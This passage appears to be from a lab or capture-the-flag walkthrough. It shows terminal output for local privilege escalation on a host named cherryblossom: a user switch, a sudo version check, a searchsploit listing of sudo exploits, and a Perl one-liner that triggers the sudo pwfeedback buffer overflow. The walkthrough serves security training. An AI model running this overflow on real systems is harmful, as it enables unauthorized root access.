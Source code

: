 ```bash
lily@cherryblossom:/var/backups$ su johan
Password: 
johan@cherryblossom:/var/backups$ whoami
johan
johan@cherryblossom:/var/backups$ id
uid=1001(johan) gid=1001(johan) groups=1001(johan),1003(devs)
johan@cherryblossom:/var/backups$  
```

> **Privilege Escalation with pwdfeedback**
> 

```bash
johan@cherryblossom:/var/backups$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
johan@cherryblossom:/var/backups$ 
```

`searchsploit "sudo 1.8”`

```bash
---------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------- ---------------------------------
sudo 1.8.0 < 1.8.3p1 - 'sudo_debug' glibc FORTIFY_SOURCE Bypass + Privilege Escalation                          | linux/local/25134.c
sudo 1.8.0 < 1.8.3p1 - Format String                                                                            | linux/dos/18436.txt
sudo 1.8.0 to 1.9.12p1 - Privilege Escalation                                                                   | linux/local/51217.sh
Sudo 1.8.14 (RHEL 5/6/7 / Ubuntu) - 'Sudoedit' Unauthorized Privilege Escalation                                | linux/local/37710.txt
Sudo 1.8.20 - 'get_process_ttyname()' Local Privilege Escalation                                                | linux/local/42183.c
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow                                                                     | linux/local/48052.sh
Sudo 1.8.25p - 'pwfeedback' Buffer Overflow (PoC)                                                               | linux/dos/47995.txt
sudo 1.8.27 - Security Bypass                                                                                   | linux/local/47502.py
---------------------------------------------------------------------------------------------------------------- ---------------------------------
```

```bash
johan@cherryblossom:/var/backups$ sudo -l
[sudo] password for johan: ****************************                          
Sorry, try again.
[sudo] password for johan: *************                       
Sorry, try again.
[sudo] password for johan: ************************ 
sudo: 3 incorrect password attempts
johan@cherryblossom:/var/backups$ which perl
/usr/bin/perl
johan@cherryblossom:/var/backups$ perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash
[sudo] password for johan: Segmentation fault (core dumped)
johan@cherryblossom:/var/backups$ 
```
